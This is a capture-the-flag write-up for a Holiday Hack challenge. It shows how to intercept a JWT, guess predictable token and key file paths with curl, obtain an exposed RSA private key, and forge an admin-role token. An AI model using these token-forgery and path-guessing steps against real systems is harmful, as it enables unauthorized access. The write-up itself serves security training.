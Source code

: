 # OBJECTIVE 18 - The Captain's Comms  


## OBJECTIVE  
Speak with Chimney Scissorsticks on Steampunk Island about the captain's new Software Defined Radio (SDR) and assume the **GeeseIslandsSuperChiefCommunicationsOfficer** role to transmit critical data.

## Hints

<details>
  <summary>Hints provided for Objective 18</summary>

- The captain abbreviates filenames (1–4 letter words).
- Use web interception tools like Burp or ZAP.
- JWTs play a major role—learn more from [Auth0’s guide](https://auth0.com/docs/secure/tokens/json-web-tokens).
- The captain’s journal hints he’s been to Pixel Island.
- Find a private key, update an existing JWT!
</details>

---

## My Approach

This challenge focused heavily on **JWT manipulation**, **authorization bypass**, and **file enumeration** through poor security hygiene.

---

### Step 1: Intercept the Bearer Token

Using **Burp Suite**, I intercepted a request and captured the JWT found in the `Authorization` header:

```
Authorization: Bearer eyJhbG...
```

---

### Step 2: Access the First JWT Token (`radioMonitor`)

Based on clues from the **Owner's Card**, I tried accessing a known token location:

```bash
curl https://captainscomms.com/jwtDefault/rMonitor.tok -H "Authorization: Bearer <captured-token>"
```

Decoded on [jwt.io](https://jwt.io), the payload contained:

```json
{
  "role": "radioMonitor"
}
```

Setting this token as the `justWatchThisCookie` allowed access to the **SDR Waterfall Display** — but not the decoding features.

---

### Step 3: Guess the Next Token (`radioDecoder`)

Guessing the next logical filename based on the captain's naming habits:

```bash
curl https://captainscomms.com/jwtDefault/rDecoder.tok -H "Authorization: Bearer <captured-token>"
```

Success — we retrieved the `radioDecoder` token and updated the `justWatchThisCookie` again.

Now the SDR interface showed **three decoded transmissions**:

---

### Signal Transmissions:

#### Morse Code:
```
CQ CQ CQ DE KH644 – SILLY CAPTAIN! WE FOUND HIS FANCY RADIO PRIVATE KEY IN A FOLDER CALLED TH3CAPSPR1V4T3F0LD3R...
```



#### Voice Numbers Station:
```
88323 88323 88323 ... 12249 12249 16009 16009 ...
```

---

### Step 4: Retrieve the Captain’s Keys

Clues pointed to a `keys` directory. I accessed the **public key**:

```bash
curl https://captainscomms.com/jwtDefault/keys/capsPubKey.key -H "Authorization: Bearer <token>"
```

Then used info from the Morse transmission (`TH3CAPSPR1V4T3F0LD3R`) to grab the **private key**:

```bash
curl https://captainscomms.com/jwtDefault/keys/TH3CAPSPR1V4T3F0LD3R/capsPrivKey.key -H "Authorization: Bearer <token>"
```

We now had both the public and private RSA keys.

---

### Step 5: Forge the Admin JWT

Using [jwt.io](https://jwt.io), I crafted a new JWT using the private key and this payload:

```json
{
  "iss": "HHC 2023 Captain's Comms",
  "iat": 1699485795,
  "exp": 1809937395,
  "aud": "Holiday Hack 2023",
  "role": "GeeseIslandsSuperChiefCommunicationsOfficer"
}
```

Signed it with `RS256` and replaced the `justWatchThisCookie` with the new token.

---

### Step 6: Transmit the Signal

The **RadioFax** and **Voice** transmissions gave us the needed frequency and time:

- Frequency: `10426Hz`
- Date: `12/24`
- Time: `16:00`  
  → adjusted **4 hours earlier**, as instructed: **12:00**

So I submitted:

```
Freq: 10426Hz / Date: 1224 / Time: 1200
```

Challenge complete 🎉


---

## Result

I successfully gained unauthorized access to the admin role by abusing poor JWT key storage and predictable file naming. This allowed me to control the radio transmitter and complete the mission.

---

## Lessons Learned

This challenge reinforced how critical secure key storage is. Exposing private keys and poorly scoped tokens makes JWT-based systems trivial to exploit. Always secure tokens, use minimal roles, and avoid predictable file paths — or your comms will get hijacked by elves.
